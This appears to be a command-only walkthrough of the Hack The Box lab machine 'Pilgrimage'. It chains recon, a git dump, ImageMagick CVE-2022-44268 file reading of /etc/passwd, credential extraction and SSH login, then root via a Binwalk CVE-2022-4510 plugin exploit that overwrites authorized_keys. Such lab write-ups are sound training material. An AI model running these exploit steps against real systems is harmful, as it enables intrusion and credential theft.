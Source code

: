 # 🛐 HTB: Pilgrimage

## 📡 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.219
nmap -p 22,80 -sCV 10.10.11.219
nmap -p 22,80 -sCV pilgrimage.htb
```

### Add to `/etc/hosts`

```bash
echo "10.10.11.219 pilgrimage.htb" | sudo tee -a /etc/hosts
```

### Directory and subdomain fuzzing

```bash
ffuf -u http://pilgrimage.htb -H "Host: FUZZ.pilgrimage.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac
feroxbuster -u http://pilgrimage.htb -x php
```

## 📥 Git Dump / Source Discovery

```bash
pipx install git-dumper
git-dumper http://pilgrimage.htb .git-dump
```

## 🧙 ImageMagick File Read — CVE-2022-44268

### Manual image with malicious metadata

```bash
pngcrush -text a "profile" "/etc/passwd" input.png
mv pngout.png malicious.png
```

### Identify output

```bash
identify -verbose shrunked_file.png
```

### Extract raw data from profile

```bash
identify -verbose shrunked.png | grep -Pv "^( |Image)" | xxd -r -p > outputfile
```

### Python POC

```bash
python CVE-2022-44268.py --image input.png --file-to-read /etc/passwd --output malicious.png
python CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/<filename>.png
```

## 🧬 SQLite Extraction

```bash
sqlite3 pilgrimage.sqlite
.tables
.schema users
SELECT * FROM users;
```

## 🔐 [Initial Shell as emily](SSH)

```bash
sshpass -p abigchonkyboi123 ssh emily@pilgrimage.htb
```

## 🔎 Enumeration (Local)

```bash
ps auxww
sudo -l
find / -perm -4000 -user root 2>/dev/null
```

### Test `inotifywait`

```bash
inotifywait -m -e create /dev/shm
echo "test" > /dev/shm/test.txt
```

## 🐚 Root PrivEsc — Binwalk Plugin Abuse (CVE-2022-4510)

### Check version

```bash
binwalk -h
```

### Create plugin image exploit (SSH via `authorized_keys` overwrite)

```bash
python walkingpath.py ssh exploit.png ~/keys/ed25519_gen.pub
```

### Upload it into monitored folder

```bash
scp binwalk_exploit.png emily@pilgrimage.htb:/var/www/pilgrimage.htb/shrunk/
```

### Get root shell

```bash
ssh -i ~/keys/ed25519_gen root@pilgrimage.htb
```